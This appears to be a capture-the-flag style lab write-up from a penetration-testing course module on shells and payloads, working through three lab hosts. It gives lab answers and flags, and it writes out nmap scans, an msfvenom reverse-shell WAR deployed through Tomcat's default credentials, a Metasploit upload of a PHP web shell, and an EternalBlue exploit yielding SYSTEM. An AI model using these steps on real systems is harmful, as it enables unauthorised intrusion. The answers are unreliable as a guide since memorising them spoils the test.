

# Section 15: PHP Web Shells

Module: 08. Shells & Payloads

---

## Questions & Answers

### 1. What is the hostname of Host-1? (Format: all lower case)

Context:
- RDP to the machine:
```bash
┌─[eu-academy-1]─[10.10.15.239]─[htb-ac-2162140@htb-kv4lm3xyok]─[~]
└──╼ [★]$ KRB5_CONFIG=/dev/null xfreerdp /v:10.129.146.179 /u:htb-student /p:'HTB_@cademy_stdnt!' /dynamic-resolution /cert:ignore +clipboard
```
- Get hostname
```bash
┌─[✗]─[htb-student@skills-foothold]─[~]
└──╼ $sudo nmap -sC -sV -O -v 172.16.1.11
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Inlanefreight Server Status
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2019 Standard 17763 microsoft-ds
515/tcp  open  printer       Microsoft lpd
1801/tcp open  msmq?
2103/tcp open  msrpc         Microsoft Windows RPC
2105/tcp open  msrpc         Microsoft Windows RPC
2107/tcp open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SHELLS-WINSVR
|   NetBIOS_Domain_Name: SHELLS-WINSVR
|   NetBIOS_Computer_Name: SHELLS-WINSVR
|   DNS_Domain_Name: shells-winsvr
|   DNS_Computer_Name: shells-winsvr
|   Product_Version: 10.0.17763
|_  System_Time: 2026-07-29T13:35:19+00:00
| ssl-cert: Subject: commonName=shells-winsvr
| Issuer: commonName=shells-winsvr
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-07-28T13:24:44
| Not valid after:  2027-01-27T13:24:44
| MD5:   5aad 5e6b acac 5556 5275 89c9 317e 6075
|_SHA-1: 47a5 1370 ea71 5739 bb0b 34b4 cba8 62c8 dd1c 61b5
|_ssl-date: 2026-07-29T13:35:24+00:00; -1s from scanner time.
8080/tcp open  http          Apache Tomcat 10.0.11
|_http-title: Apache Tomcat/10.0.11
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: A2:DE:AD:86:04:F7 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/29%OT=80%CT=1%CU=34340%PV=Y%DS=1%DC=D%G=Y%M=A2DEAD%T
OS:M=6A6A019D%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10C%TI=I%CI=I%II=I
OS:%SS=S%TS=U)OPS(O1=M5B4NW8NNS%O2=M5B4NW8NNS%O3=M5B4NW8%O4=M5B4NW8NNS%O5=M
OS:5B4NW8NNS%O6=M5B4NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70
OS:)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M5B4NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
OS:T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A
OS:=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPC
OS:K=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: shells-winsvr
|   NetBIOS computer name: SHELLS-WINSVR\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-07-29T06:35:19-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2026-07-29T13:35:19
|_  start_date: N/A
| nbstat: NetBIOS name: SHELLS-WINSVR, NetBIOS user: <unknown>, NetBIOS MAC: a2:de:ad:86:04:f7 (unknown)
| Names:
|   SHELLS-WINSVR<00>    Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   SHELLS-WINSVR<20>    Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|_clock-skew: mean: 1h23m59s, deviation: 3h07m50s, median: 0s
```

**Answer:** `shells-winsvr`

---

### 2. Exploit the target and gain a shell session. Submit the name of the folder located in C:\Shares\ (Format: all lower case)

Context:
- Run `firefox` to launch Mozilla Firefox, visit `http://172.16.1.11:8080`, this web is running Apache Tomcat/10.0.11
- Seach for the default credentials and found `tomcat:Tomcatadm`

- In `/manager/html`, found a WAR file to deploy, which we can upload `malicious.war` file with msfvenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f war -o /home/kali/Downloads/malicious.war
```
*172.16.1.5 is the private IP address of the skills-foothold machine*
- After upload `malicious.war`, visit `/malicious/` to get the reverse shell
- Run `nc -lvnp 4444` to listen for the reverse shell
- Send the reverse shell 
```bash
┌─[✗]─[htb-student@skills-foothold]─[~]
└──╼ $nc -lvnp 4444
Listening on [IP_ADDRESS]
```
```
┌─[✓]─[htb-student@skills-foothold]─[~]
└──╼ $curl http://172.16.1.11:8080/malicious/
```
Get the answer:
```bash
┌─[htb-student@skills-foothold]─[~]
└──╼ $nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.16.1.5] from (UNKNOWN) [172.16.1.11] 49747
Microsoft Windows [Version 10.0.17763.2114]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>dir C:\Shares
dir C:\Shares
 Volume in drive C has no label.
 Volume Serial Number is 2683-3D37

 Directory of C:\Shares

09/22/2021  01:22 PM    <DIR>          .
09/22/2021  01:22 PM    <DIR>          ..
09/22/2021  01:24 PM    <DIR>          dev-share
               0 File(s)              0 bytes
               3 Dir(s)  26,684,960,768 bytes free

C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>
```


**Answer:** `dev-share`

---

### 3. What distribution of Linux is running on Host-2? (Format: distro name, all lower case)

Context:
```bash
┌─[htb-student@skills-foothold]─[~]
└──╼ $sudo nmap -sC -sV -O -v blog.inlanefreight.local
[sudo] password for htb-student: 
Starting Nmap 7.92 ( https://nmap.org ) at 2026-07-30 22:19 EDT
Nmap scan report for blog.inlanefreight.local (172.16.1.12)
Host is up (0.0064s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f6:21:98:29:95:4c:a4:c2:21:7e:0e:a4:70:10:8e:25 (RSA)
|   256 6c:c2:2c:1d:16:c2:97:04:d5:57:0b:1e:b7:56:82:af (ECDSA)
|_  256 2f:8a:a4:79:21:1a:11:df:ec:28:68:c2:ff:99:2b:9a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Inlanefreight Gabber
| http-robots.txt: 1 disallowed entry 
|_/
|_http-favicon: Unknown favicon MD5: 7E765F1C4CB20568118ED55C0B6FFA91
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: A2:DE:AD:FF:23:29 (Unknown)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.4
Uptime guess: 34.512 days (since Fri Jun 26 10:01:58 2026)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 22:19
Completed NSE at 22:19, 0.00s elapsed
Initiating NSE at 22:19
Completed NSE at 22:19, 0.00s elapsed
Initiating NSE at 22:19
Completed NSE at 22:19, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.05 seconds
           Raw packets sent: 1026 (45.986KB) | Rcvd: 1014 (41.246KB)
```

**Answer:** `Ubuntu`

---

### 4. What language is the shell written in that gets uploaded when using the 50064.rb exploit?

Context:
- Visit `http://blog.inlanefreight.local` found a post talking about an exploit: [link](https://www.exploit-db.com/exploits/50064)

**Answer:** `PHP`

---

### 5. Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt

Context:
- Prepare script:
```bash
┌─[htb-student@skills-foothold]─[~]
└──╼ $mkdir -p ~/.msf4/modules/exploits/php/webapps/
┌─[✗]─[htb-student@skills-foothold]─[~]
└──╼ $cp ./exploit.rb ~/.msf4/modules/exploits/php/webapps/50064.rb
```
- Use Metasploit to run the exploit:
```bash
msfconsole
msf6 > reload_all
msf6 > use exploit/php/webapps/50064
set RHOSTS <Target_IP>
set VHOST <Target_Domain_Or_Virtual_Host>
set USERNAME admin
set PASSWORD admin123!@#
```
- Result:
```bash
msf6 exploit(php/webapps/50064) > set RHOSTS 172.16.1.12
RHOSTS => 172.16.1.12
msf6 exploit(php/webapps/50064) > set USERNAME admin
USERNAME => admin
msf6 exploit(php/webapps/50064) > 
msf6 exploit(php/webapps/50064) > set PASSWORD admin123!@#
PASSWORD => admin123!@#
msf6 exploit(php/webapps/50064) > set VHOST blog.inlanefreight.local
VHOST => blog.inlanefreight.local
msf6 exploit(php/webapps/50064) > run

[*] Got CSRF token: 2727ce321d
[*] Logging into the blog...
[+] Successfully logged in with admin
[*] Uploading shell...
[+] Shell uploaded as data/i/4GZK.php
[+] Payload successfully triggered !
[*] Started bind TCP handler against 172.16.1.12:4444
[*] Sending stage (39282 bytes) to 172.16.1.12
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.16.1.12:4444) at 2026-07-30 22:40:03 -0400

meterpreter > shell
Process 3152 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
cat /customscripts/flag.txt
B1nD_Shells_r_cool
```

**Answer:** `B1nD_Shells_r_cool`

---

### 6. What is the hostname of Host-3?

Context:
```bash
┌─[htb-student@skills-foothold]─[~]
└──╼ $sudo nmap -sV -sC -O -v 172.16.1.13
[sudo] password for htb-student: 
Starting Nmap 7.92 ( https://nmap.org ) at 2026-07-30 22:41 EDT
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 172.16.1.13 - /
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
MAC Address: A2:DE:AD:FF:B4:DD (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/30%OT=80%CT=1%CU=37099%PV=Y%DS=1%DC=D%G=Y%M=A2DEAD%T
OS:M=6A6C0B8D%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=10A%TI=I%CI=I%II=I%
OS:SS=S%TS=A)OPS(O1=M5B4NW8ST11%O2=M5B4NW8ST11%O3=M5B4NW8NNT11%O4=M5B4NW8ST
OS:11%O5=M5B4NW8ST11%O6=M5B4ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=200
OS:0%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M5B4NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80
OS:%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=
OS:%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%
OS:W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.041 days (since Thu Jul 30 21:42:37 2026)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=251 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h20m03s, deviation: 4h02m29s, median: 3s
| nbstat: NetBIOS name: SHELLS-WINBLUE, NetBIOS user: <unknown>, NetBIOS MAC: a2:de:ad:ff:b4:dd (unknown)
| Names:
|   SHELLS-WINBLUE<00>   Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  SHELLS-WINBLUE<20>   Flags: <unique><active>
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: SHELLS-WINBLUE
|   NetBIOS computer name: SHELLS-WINBLUE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-07-30T19:42:20-07:00
| smb2-time: 
|   date: 2026-07-31T02:42:20
|_  start_date: 2026-07-31T01:42:51
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

**Answer:** `SHELLS-WINBLUE`

---

### 7. Exploit and gain a shell session with Host-3. Then submit the contents of C:\Users\Administrator\Desktop\Skills-flag.txt

Context:
- Windows Server 2016 Standard, build 14393, related to EternalBlue MS17-010 vulnerability.
- Confirmed by
```bash
┌─[htb-student@skills-foothold]─[~]
└──╼ $nmap --script smb-vuln-ms17-010 -p 445 172.16.1.13
Starting Nmap 7.92 ( https://nmap.org ) at 2026-07-30 22:49 EDT
Nmap scan report for 172.16.1.13
Host is up (0.0048s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds
```
- Use Metasploit to exploit this:
```bash
msf6 > use exploit/windows/smb/ms17_010_psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 172.16.1.5
LHOST => 172.16.1.5
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 172.16.1.13
RHOSTS => 172.16.1.13
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 172.16.1.5:4444 
[*] 172.16.1.13:445 - Target OS: Windows Server 2016 Standard 14393
[*] 172.16.1.13:445 - Built a write-what-where primitive...
[+] 172.16.1.13:445 - Overwrite complete... SYSTEM session obtained!
[*] 172.16.1.13:445 - Selecting PowerShell target
[*] 172.16.1.13:445 - Executing the payload...
[+] 172.16.1.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200262 bytes) to 172.16.1.13
[*] Meterpreter session 1 opened (172.16.1.5:4444 -> 172.16.1.13:49671) at 2026-07-30 22:53:50 -0400

meterpreter > shell
Process 4020 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\Administrator\Desktop\Skills-flag.txt
type C:\Users\Administrator\Desktop\Skills-flag.txt
One-H0st-Down!
C:\Windows\system32>
```

**Answer:** `One-H0st-Down!`

---

[Back to Module Index](./README.md)
